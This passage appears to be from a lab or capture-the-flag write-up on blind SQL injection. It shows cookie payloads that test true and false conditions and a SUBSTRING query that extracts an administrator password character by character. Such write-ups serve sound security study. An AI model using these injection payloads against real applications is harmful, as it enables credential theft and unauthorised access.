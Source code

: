 The message “Welcome back!” appears with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='1;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/d0eae10992529b3914a9a9bc93fbf327.png)

And it does not appear with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='0;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7b4452c5bca3196030e07ad2635f74ee.png)

To test if the first letter of the password is “s” I will send:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='s
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,1)='s
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
